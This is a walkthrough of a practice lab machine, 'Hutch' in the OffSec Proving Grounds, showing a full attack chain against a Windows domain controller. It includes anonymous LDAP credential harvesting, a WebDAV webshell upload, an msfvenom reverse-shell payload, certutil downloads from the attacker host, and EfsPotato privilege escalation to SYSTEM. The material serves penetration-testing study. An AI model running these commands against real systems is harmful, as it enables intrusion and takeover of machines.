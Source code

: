 ```yaml
---
title: Hutch 
date: 2022-10-18 12:00:00
categories: [OSCP,PG]
tags: [activedirectory]
---
```


# Hutch

## Summary

We are going to attack **Hutch** in the OSCP Proving Ground. The machine is rated as **Hard** and can be tackled by different ways. I've chosen the most reliable form that can be often spotted in the wild.

## Enumeration

### Rustscan

`sudo rustscan -t 500 -b 500 --ulimit 65000 -a 192.168.162.122 -- -sV -sC -oA ./{{ip}}`

```bash
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 65000.
Open 192.168.71.122:53
Open 192.168.71.122:80
Open 192.168.71.122:88
Open 192.168.71.122:135
Open 192.168.71.122:139
Open 192.168.71.122:389
Open 192.168.71.122:445
Open 192.168.71.122:464
Open 192.168.71.122:593
Open 192.168.71.122:636
...
```

Thanks to rust we know that **webdav** is enabled on port 80

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   Server Date: Wed, 29 Jun 2022 03:55:18 GMT
|   Server Type: Microsoft-IIS/10.0
|_  WebDAV type: Unknown
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-06-29 03:54:30Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
...
```

### LDAP

We're going to check for null credentials and are sucessfull. We identified that the user **hutch.offsec/fmcsorley** uses the password **CrabSharkJellyfish192**

`ldapsearch -x -H ldap://192.168.162.122 -D '' -w '' -b "DC=hutch,DC=offsec"`

```bash
# hutch.offsec
dn: DC=hutch,DC=offsec

# Administrator, Users, hutch.offsec
dn: CN=Administrator,CN=Users,DC=hutch,DC=offsec

# Freddy McSorley, Users, hutch.offsec
dn: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Freddy McSorley
description: Password set to CrabSharkJellyfish192 at user's request. Please change on next login.
distinguishedName: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
name: Freddy McSorley
sAMAccountName: fmcsorley
userPrincipalName: fmcsorley@hutch.offsec
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=hutch,DC=offsec
...
```

#### Verify Credentials

Using **crackmapexec** we're able to verify that the credentials are valid

`cme smb 192.168.162.122 -u 'fmcsorley' -p 'CrabSharkJellyfish192' --shares`

```bash
SMB         192.168.162.122 445    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
SMB         192.168.162.122 445    HUTCHDC          [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192 
SMB         192.168.162.122 445    HUTCHDC          [+] Enumerated shares
SMB         192.168.162.122 445    HUTCHDC          Share           Permissions     Remark
SMB         192.168.162.122 445    HUTCHDC          -----           -----------     ------
SMB         192.168.162.122 445    HUTCHDC          ADMIN$                          Remote Admin
SMB         192.168.162.122 445    HUTCHDC          C$                              Default share
SMB         192.168.162.122 445    HUTCHDC          IPC$            READ            Remote IPC
SMB         192.168.162.122 445    HUTCHDC          NETLOGON        READ            Logon server share 
SMB         192.168.162.122 445    HUTCHDC          SYSVOL          READ            Logon server share
```

## Foothold

### Shell

We will use our knowlege about webdav which is enabled for port 80 and the credentials we gathered to upload an aspx webshell

Create a listener to catch any potential incoming shells

`rlwrap -cAr nc -lvnp 4444`

Upload a command shell using the user:pass combination we discovered

`curl --basic --user "fcmsorley:CrabSharkJellyfish192" -T "cmdasp.aspx" "http://192.168.162.122/"`

Open a browser and navigate to [http://192.168.162.122/cmdasp.aspx](http://192.168.162.122/cmdasp.aspx) and use an encoded payload to get a shell
> Just use: [Revshells](https://www.revshells.com/) to generate a payload :)

## Privilege Escalation

### Local Enumeration

Let's check for privs we have
`whoami /priv`
```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
> SeImpersonatePrivilege is an easy win, it can be abused in mutliple ways and will most of the times be an instant priv esc vector

### Escalation

Thanks to **SeImpersonatePrivilege** we're able to use one of the Potato Family exploits to get to nt authority/system level

We'll chose one that's not as famous as some others **EfsPotato**
[EfsPotato](https://github.com/zcgonvh/EfsPotato)

We could have used an encoded powershell payload again to get our shell but I decided to throw some meterpreter in the mix

Create meterpreter binary that connects back to a listener on port 4443

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.162 LPORT=4443 -f exe -o meterpreter.exe`

Upload EfsPotato , meterpreter.exe and build EfsPotato on the target. I used a python http.server for transfering files onto the target
```powershell
cd c:\users\public
# Download our files
certutil.exe -urlcache -split -f http://192.168.49.162/EfsPotato.cs
certutil.exe -urlcache -split -f http://192.168.49.162/meterpreter.exe
# Build EfsPotato.exe
csc.exe EfsPotato.cs -nowarn:1691,618
```

Setup Metasploit to catch our reverse shell
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 4443
LPORT => 4443
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.162:4443 
```

Launch our binary with escalated privileges using **EfsPotato** on our target

`c:\users\public\EfsPotato.exe c:\users\public\meterpreter.exe`

Let's check if we were successfull
```bash
[*] Sending stage (175174 bytes) to 192.168.162.122
[*] Meterpreter session 1 opened (192.168.49.162:4443 -> 192.168.162.122:51950 ) at 2022-08-30 12:50:46 +0200
meterpreter > shell
Process 3700 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\users\public>whoami
whoami
nt authority\system
```

